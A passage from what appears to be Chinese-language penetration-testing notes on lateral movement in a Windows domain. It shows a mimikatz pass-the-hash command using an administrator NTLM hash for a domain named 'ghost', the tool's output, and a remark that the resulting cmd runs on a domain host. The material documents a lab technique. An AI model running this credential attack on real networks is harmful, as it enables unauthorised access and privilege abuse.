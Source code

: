![image-20220318183012610](内网渗透&横向移动/image-20220318183012610.png)

查看域控文件目录：

```sh
mimikatz # sekurlsa::pth /user:administrator /domain:ghost /ntlm:520126a03f5d5a8d836f1c4f34ede7ce
user    : administrator
domain  : ghost
program : cmd.exe
impers. : no
NTLM    : 520126a03f5d5a8d836f1c4f34ede7ce
  |  PID  6968
  |  TID  4008
  |  LSA Process is now R/W
  |  LUID 0 ; 22668132 (00000000:0159e364)
  \_ msv1_0   - data copy @ 000001F6C8FFE6F0 : OK !
  \_ kerberos - data copy @ 000001F6C8E5ED28
   \_ des_cbc_md4       -> null
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ *Password replace @ 000001F6C8465DC8 (32) -> null
```

会弹出来个cmd，这个cmd是域内主机的cmd，不是域控的cmd。
